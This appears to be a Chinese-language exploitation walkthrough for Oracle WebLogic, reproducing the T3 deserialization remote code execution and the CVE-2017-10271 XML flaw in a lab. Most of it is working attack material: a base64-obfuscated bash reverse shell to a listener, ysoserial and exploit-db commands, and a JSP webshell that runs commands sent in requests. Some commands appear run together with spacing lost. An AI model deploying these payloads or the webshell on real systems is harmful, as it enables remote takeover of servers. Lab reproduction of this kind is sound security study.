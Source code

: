 **Weblogic Server中的RMI 通信使用T3协议在Weblogic Server和其它Java程序（客户端或者其它Weblogic Server实例）之间传输数据, 服务器实例会跟踪连接到应用程序的每个Java虚拟机（JVM）中, 并创建T3协议通信连接, 将流量传输到Java虚拟机. T3协议在开放WebLogic控制台端口的应用上默认开启. 攻击者可以**  
  
**通过T3协议发送恶意的的反序列化数据, 进行反序列化, 实现对存在漏洞的weblogic组件的远程代码执行攻击。**  
### 漏洞复现  
  
准备反弹shell指令如下  
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}//Base64编码的内容为bash -i >& /dev/tcp/192.168.1.129/6666 0>&1
```  
  
接下来开启监听  
  
![image-20230420135029363](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5CNGI1PXgvMGxgV58DSnmld9rcRhw49pUibYbeTticjDpqFQoUkicLab4A/640?wx_fmt=png&from=appmsg "")  
  
接下来利用反序列化工具**ysoserial.jar**  
```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener9999CommonsCollections1'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}'
```  
  
![image-20230420141739301](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5l3J6eU1kz2Kk6pfSOPbvjn2Hyt5hOjum19dKOGUHNsYluaZpd953FA/640?wx_fmt=png&from=appmsg "")  
  
接下来下载Exp进行攻击，  
  
**Exp地址：https://www.exploit-db.com/exploits/44553**  
  
复制代码到**Exploit.py**  
中，接下来执行如下指令  
```
python2 Exploit.py 192.168.1.1297001/tools/weblogic/ysoserial-all.jar 192.168.1.1299999JRMPClient
```  
  
![image-20230420142121751](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5eRu20YRLlFYLiadT4hOrKEXg5twXjnoGWRVFkrJgCnrXB4aXsMDQpbg/640?wx_fmt=png&from=appmsg "")  
  
此时查看监听处  
  
![image-20230420142144309](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5Dm9VEUiaHQ6J47hia4BYKRsVicMkpA740XUKT3uYTA5osib9Gtg9RSmudA/640?wx_fmt=png&from=appmsg "")  
  
成功反弹shell  
## XML漏洞  
#### 漏洞复现  
  
Vulhub复现  
```
cd vulhub/weblogic/CVE-2017-10271docker-compose up  -d
```  
  
开启环境后访问**http://192.168.1.129:7001/_async/AsyncResponseService**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK53CxAdDq4KcUJup8SYiaG3xtPN1yFWwia5cIoIxCePr0Kzr7m486CqZbg/640?wx_fmt=png&from=appmsg "")  
  
访问成功说明存在漏洞  
  
写入**shell.txt**  
文件，内容如下  
```
<%if("123".equals(request.getParameter("pwd"))){java.io.InputStream in =Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a =-1;byte[] b =newbyte[1024];        out.print("<pre>");while((a=in.read(b))!=-1){            out.println(newString(b));}        out.print("</pre>");}%>
```  
  